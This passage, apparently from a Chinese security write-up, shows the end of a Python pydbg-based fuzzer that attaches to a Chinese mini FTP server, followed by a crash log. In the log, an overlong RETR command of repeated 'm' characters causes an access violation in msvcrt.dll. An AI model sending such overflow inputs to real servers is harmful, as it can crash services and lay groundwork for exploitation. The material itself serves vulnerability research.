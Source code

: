 ```

    print '[*] python fuzz.py -i 127.0.0.1 -u test -p test -P 21'
    print '[*] python fuzz.py --ip 127.0.0.1 --user test --pass test --port 21'
    print '[*] thanks bstaint'
    print '[*] author pr0mise'
    sys.exit(-1)

def main():
    getArgv()

    print '\n'
    debugger=pydbg()
    targetProgramName=u'守望迷你ftp服务器.exe'
    global hooks,flag
    flag=0
    hooks = utils.hook_container()


    #enumerate process.filter target ftp program
    for (pid, name ) in debugger.enumerate_processes():
        if name ==targetProgramName.encode('gbk') :
            # name.encode('gbk')... windows font format.. you know...
            debugger.attach(pid)
            flag=1
            print '[*] attaching to program with pid %d ' %pid

    if flag==0:
        print '[*] target program not found\n'
        sys.exit(-1)
    debugger.set_callback(EXCEPTION_ACCESS_VIOLATION, accessViolationCallback)
    #raise EXCEPTION_ACCESS_VIOLATION,Callback "accessViolationCallback" func

    debugger.set_callback(LOAD_DLL_DEBUG_EVENT, loadDllCallback)
    #the LoadLibrary('dll') after callback loadDllCallback func

    debugger.run()



if __name__ == '__main__':
    main()

```

执行:

```
RETR mmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm
mmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm
mmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm
mmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm
mmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm
mmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm
mmmmmmmmmmmmmmmmmmmmmmmmm
mov [edi],edx
msvcrt.dll:77c12131 mov [edi],edx from thread 692 caused access violation
when attempting to write to 0x00130000

CONTEXT DUMP
  EIP: 77c12131 mov [edi],edx
  EAX: 7efefefe (2130640638) -> N/A
  EBX: 00000000 (         0) -> N/A
  ECX: 0012fe0c (   1244684) -> mmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmC:\mm
mmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm
```